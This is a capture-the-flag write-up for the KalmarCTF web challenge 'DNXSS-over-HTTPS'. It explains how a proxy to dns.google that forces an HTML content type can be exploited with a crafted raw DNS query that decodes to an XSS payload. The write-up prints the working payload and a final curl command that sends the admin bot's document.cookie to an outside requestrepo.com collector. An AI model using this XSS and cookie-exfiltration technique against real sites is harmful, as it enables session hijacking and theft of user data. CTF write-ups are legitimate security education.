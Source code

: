 ```yaml
---
tags:
  - xss
  - dns
  - raw
  - filter-bypass
references:
---
```

# DNXSS-over-HTTPS
## Description
> Do you like DNS-over-HTTPS? Well, I'm proxying https://dns.google/! Would be cool if you can find an XSS!
  Report to admin locally:
  `curl http://localhost:8008/report -H "Content-Type: application/json" -d '{"url":"http://proxy/"}'`
  Report to admin for the real flag:
  `curl https://dnxss.chal-kalmarc.tf/report -H "Content-Type: application/json" -d '{"url":"http://proxy/"}'`
  https://dnxss.chal-kalmarc.tf/
## Overview
The app is a proxy to dns.google.
```
http {
  server {
    listen 80;
    location / {
      proxy_pass https://dns.google;
      add_header Content-Type text/html always;
    }
    location /report {
      proxy_pass http://adminbot:3000;
    }
  }
}
```
## Road to flag
There's an admin bot that sets the flag in its cookies -> XSS
## Exploitation

- `/resolve` encodes all special chars -> no xss
- `/dns-query` decodes valid base64 dns requests -> What if I could build a valid raw dns query that when decoded can be rendered as HTML?
	- **Challenges**: in the raw query i can't use: template strings, dots, plus, and the string has to be less than 63 chars

**Solution**
- XSS payload: `<svg/onload=eval(decodeURI("'"["concat"](location)))/></svg>`

1. Get the raw query by requesting:
`https://dns.google/resolve?name=%3Csvg/onload=eval(decodeURI(%22%27%22[%22concat%22](location)))/%3E%3C/svg%3E.997asfy8.requestrepo.com&type=TXT`
2. Decode the query and adjust the string case (`<svg/ONlOAd=EVal(deCodeuRI("'"["coNcaT"](locatION)))/></SvG>` -> `<svg/onload=eval(decodeURI("'"["concat"](location)))/></svg>`)
I used [Cyberchef](<https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')From_Base64('A-Za-z0-9%2B/%3D',false,false/disabled)URL_Encode(true/disabled)URL_Encode(false/disabled)&input=jb0AEAABAAAAAAABPD48c3ZnL29ubG9hZD1ldmFsKGRlY29kZVVSSSgiJyJbImNvbmNhdCJdKGxvY2F0aW9uKSkpPjwvc3ZnPgg5OTdBU0Z5OAtyZVF1RXNUcmVwbwNDb00AABAAAQAAKQV4AACAAAAA&ieol=VT&oeol=VT>)
3. Verify that the xss triggers
`https://dnxss.chal-kalmarc.tf/dns-query?x=';alert()//&dns=jb0AEAABAAAAAAABPD48c3ZnL29ubG9hZD1ldmFsKGRlY29kZVVSSSgiJyJbImNvbmNhdCJdKGxvY2F0aW9uKSkpPjwvc3ZnPgg5OTdBU0Z5OAtyZVF1RXNUcmVwbwNDb00AABAAAQAAKQV4AACAAAAA
4. Get the flag
```sh
curl https://dnxss.chal-kalmarc.tf/report -H "Content-Type: application/json" -d '{"url":"http://proxy/dns-query?x=%27;location=%27//997asfy8.requestrepo.com?%27+document.cookie//&dns=jb0AEAABAAAAAAABPD48c3ZnL29ubG9hZD1ldmFsKGRlY29kZVVSSSgiJyJbImNvbmNhdCJdKGxvY2F0aW9uKSkpPjwvc3ZnPgg5OTdBU0Z5OAtyZVF1RXNUcmVwbwNDb00AABAAAQAAKQV4AACAAAAA"}'
```

`kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`
